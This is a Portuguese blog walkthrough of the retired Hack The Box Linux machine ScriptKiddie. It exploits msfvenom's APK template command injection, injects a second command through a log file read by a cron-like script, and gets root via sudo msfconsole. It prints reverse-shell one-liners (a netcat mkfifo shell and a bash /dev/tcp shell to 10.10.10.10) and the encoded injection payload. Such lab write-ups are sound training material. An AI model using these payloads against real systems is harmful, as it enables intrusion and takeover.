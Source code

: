 ```yaml
---
layout: single
title: "Walktrough: HTB ScriptKiddie"
namespace: htb-scriptkiddie
category: Walkthrough
tags:
    - HackTheBox
    - HTB Easy
    - HTB Linux
date: 2021-06-05 16:00:00
header:
    teaser: https://i.imgur.com/Egv2O1k.png
    og_image: *teaser
redirect_from: /writeup/2021/06/htb-scriptkiddie
---
```


Olá pessoal!

A máquina desta semana será **ScriptKiddie**, outra máquina Linux classificada como fácil do [Hack The Box](https://www.hackthebox.eu), criada por [0xdf](https://app.hackthebox.eu/users/4935).<!--more-->

:information_source: **Info**: Write-ups para máquinas do Hack The Box são postados assim que as respectivas máquinas são aposentadas
{: .notice--info}

![HTB ScriptKiddie](https://i.imgur.com/Igno8wu.png){: .align-center}

## Enumeração

Como de costume, iniciado enumeração com um scan rápido do `nmap` para verificar os serviços publicados nesta máquina.

```bash
$ nmap -sC -sV -Pn -oA quick 10.10.10.226                                                                   

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-24 14:05 -03
Nmap scan report for 10.10.10.226
Host is up (0.077s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.94 seconds
```

### 5000/TCP - Serviço HTTP

Ao acessar a página notado algumas ferramentas a serem utilizadas por algum script kiddie como executar um scan utilizando o `nmap`, criar um payload no `msfvenom` e buscar por exploits utilizando o `searchsploit`.

Tentei diversas formas de injeção de código neste formulário, inclusive tentando algo automatizado como por exemplo a ferramenta [commixproject/commix](https://github.com/commixproject/commix) que encontrei no Github, porém sem sucesso desta vez.

Buscando por vulnerabilidades nas ferramentas utilizadas pela página (`nmap`, `msfvenom`, `searchsploit`), acabei encontrando uma relacionada ao `msfvenom`, conforme abaixo:

```bash
$ searchsploit msfvenom
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
Metasploit Framework 6.0.11 - msfvenom APK template command injection | multiple/local/49491.py
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Aceso inicial e User flag

Alterado arquivo python com o payload desejado `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f`, encontrei alguns erros durante a execução do binário `keytool`, uma vez que este tenta assinar um arquivo APK com o payload no Common Name mas, uma vez que existia um caracter `+` no conteúdo codificado em base64 na primeira iteração, precisei modificá-lo para codificá-lo novamente, gerando um payload desta vez com sucesso a ser enviado na ferramenta e utilizado na exploração da vulnerabilidade no portal:

```python
# Change me
payload = 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f'

# b64encode to avoid badchars (keytool is picky)
payload_b64 = b64encode(payload.encode()).decode()
if '+' in payload_b64:
    payload_b64 = b64encode(payload_b64.encode()).decode()
    decode = '| base64 -d | base64 -d'
else:
    decode = '| base64 -d'

dname = f"CN='|echo -n {payload_b64} {decode} | sh #"
```

Abaixo podemos ver o output da criação do payload gerado, no caso o arquivo `evil.apk`

```bash
$ python3 49491.py                                                                                                               
[+] Manufacturing evil apkfile
Payload: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f
-dname: CN='|echo -n Y20wZ0wzUnRjQzltTzIxclptbG1ieUF2ZEcxd0wyWTdZMkYwSUM5MGJYQXZabnd2WW1sdUwzTm9JQzFwSURJK0pqRjhibU1nTVRBdU1UQXVNVFF1TVRNMklEUTBORE1nUGk5MGJYQXZaZz09 | base64 -d | base64 -d | sh #

  adding: empty (stored 0%)
jar signed.

Warning:
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk. This algorithm will be disabled in a future update.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk. This algorithm will be disabled in a future update.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmpt7qr4ner/evil.apk
Do: msfvenom -x /tmp/tmpt7qr4ner/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```

Após gerado o arquivo APK contendo o payload, executado um request no portal com os dados sugeridos no final da execução do script anterior, apontando para o LHOST 127.0.0.1 e selecionando o tipo de payload android, que deverá ser traduzido para o payload `android/meterpreter/reverse_tcp`.

![Submiting the evil payload](https://i.imgur.com/Nvcj4BA.png){: .align-center}

Após clicar no botão **Generate**, um shell reverso foi retornado no listener inicializado previamente conforme especificado durante a criação do payload.

![reverse shell returned](https://i.imgur.com/llt85mf.png){: .align-center}

Nesta mesma sessão obtida, com as credenciais em que o aplicativo se encontrava em execução, no caso o usuário `kid`, foi possível obter a flag de usuário.

```bash
kid@scriptkiddie:~$ id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
kid@scriptkiddie:~$ cat /home/kid/user.txt
<redacted>
```

## Root flag

Depois de executar o `linenum.sh`, notado que existe outro usuário na máquina, `pwn`, e que tínhamos direito de leitura em seu perfil de diretório, o qual continha um arquivo chamado `scanloosers.sh` com o seguinte conteúdo:

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

Uma vez que este script lê o conteúdo de um arquivo localizado no perfil do usuário `kid` (`/home/kid/logs/hackers`), editado seu conteúdo com o valor abaixo, de modo que fosse possível injetar o código necessário para a obtenção de um novo shell reverso com a conta `pwn`, que aparentemente executaria este script de forma recorrente.

```bash
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/4242 0>&1' #" > ~/logs/hackers
```

Após definir o novo listener e alterar o arquivo `hackers`, um novo shell reverso foi retornado, desta vez com a conta `pwn` :smile:

Enumerando novamente a máquina, desta vez a partir da conta deste novo usuário utilizando o `linpeas.sh`, notei que este user possuía direitos de execução do `msfconsole` de modo privilegiado.

```plaintext
[+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

Ao instanciar a console utilizando o `sudo`, pude executar comandos normalmente utilizando o privilégio de `root`, podendo assim ler o arquivo `/root/root.txt` e obter a flag final desta máquina

```bash
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole -q
msf6 > id
[*] exec: id

uid=0(root) gid=0(root) groups=0(root)
msf6 > cat /root/root.txt
[*] exec: cat /root/root.txt

<redacted>
msf6 >
```

Espero que tenham gostado!

Nos vemos no próximo post :smiley:
